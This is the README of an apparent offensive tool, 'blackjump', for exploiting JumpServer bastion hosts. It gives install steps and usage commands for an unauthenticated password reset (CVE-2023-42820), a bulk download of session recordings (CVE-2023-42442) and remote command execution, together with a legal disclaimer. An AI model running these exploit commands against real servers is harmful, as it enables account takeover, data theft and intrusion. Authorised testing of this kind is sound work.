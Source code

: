 ## blackjump

[简体中文](https://github.com/tarimoe/blackjump/README.md) | [English](https://github.com/tarimoe/blackjump/README_EN.md)

> Legal Disclaimer: This tool is only intended for legally authorized enterprise security construction activities, 
> such as internal attack and defense drills, vulnerability verification, and retesting. 
> 
> If you need to test the usability of this tool, please build your own target environment. 
> When using this tool for testing, you should ensure that the behavior complies with local laws and 
> regulations and has obtained sufficient authorization. Do not use against unauthorized targets. 
> 
> If you engage in any illegal behavior during the use of this tool, 
> you shall bear the corresponding consequences on your own, and we will not assume any legal or joint liability


JumpServer Fortress Machine Integrated Vulnerability Exploit Tool
- [x] Unauthorized password reset for any user (CVE-2023-42820)
- [x] Unauthorized download of all operation videos (CVE-2023-42442)
- [x] Unauthorized Remote Command Execution (RCE 2021)

## Install
```bash
python3 -m pip install -r requirements.txt
```

## Usage
+ CVE-2023-42820: You can specify `--user` and `--email` option if you know the username and email in reset password module
```bash
python3 blackjump.py reset https://vulerability
```
![img.png](img/img.png)
+ CVE-2023-42442: The `<uuid4>.tar` file in the `outputs/` directory can be thrown into the <u>[jumpserver player](https://github.com/jumpserver/VideoPlayer/releases)</u>
```bash
python3 blackjump.py dump https://vulerability
```
![img_1.png](img/img_1.png)

+ RCE
```shell
python3 blackjump.py rce http(s)://vulerability
```
![img.png](img/img_2.png)

+ help
```bash
python3 blackjump.py {reset,dump,rce} -h
```

## Ref
1. https://github.com/Veraxy00/Jumpserver-EXP (Made some optimizations)